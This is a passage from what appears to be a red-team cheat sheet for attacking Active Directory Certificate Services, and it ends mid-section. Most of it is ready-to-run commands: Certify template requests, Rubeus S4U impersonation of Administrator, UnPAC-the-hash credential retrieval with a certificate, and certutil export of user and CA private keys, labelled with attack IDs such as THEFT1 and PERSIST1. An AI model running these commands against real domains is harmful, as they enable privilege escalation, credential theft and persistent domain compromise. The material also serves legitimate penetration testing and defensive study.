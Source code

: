 ```
certutil -store -enterprise Root
```

<br>

### <a name="12"></a>1.2 &nbsp;&nbsp; Request (PERSIST1)

```
C:\Tools\Certify.exe find
C:\Tools\Certify.exe request /ca:CA_NAME /user:USER /domain:DOMAIN /template:TEMPLATE_NAME
```

<br>

### <a name="13"></a>1.3 &nbsp;&nbsp; Certpotato

```
C:\Tools\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs|http|.../MACHINE.DOMAIN /dc:DC.DOMAIN /user:COMPUTER_NAME$ /rc4:HASH /ptt
C:\Tools\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs|http|.../MACHINE.DOMAIN /dc:DC.DOMAIN /user:COMPUTER_NAME$ /ticket:TICKET.kirbi /ptt
```

<br>

### <a name="14"></a>1.4 &nbsp;&nbsp; UnPAC-The-Hash (THEFT5)

```
C:\Tools\Rubeus.exe asktgt /getcredentials /user:COMPUTER_NAME$ /certificate:C:\Certs\COMPUTER_NAME.pfx /password:PASSWORD /domain:DOMAIN /dc:DC.DOMAIN /show
```


<br>

### <a name="15"></a>1.5 &nbsp;&nbsp; Conversion 

Convert .pem to .pfx certificate:

```
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Certs\USER.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Certs\USER.pfx
```


<br>

### <a name="16"></a>1.6 &nbsp;&nbsp; Export (THEFT1)

Using certutil:

```
certutil -p "PASSWORD" -exportpfx HASH C:\Users\Public\USER.pfx
certutil -exportpfx -p "PASSWORD" -enterprise Root HASH C:\Users\Public\CA_NAME.p12
```

Using CertifyKit:
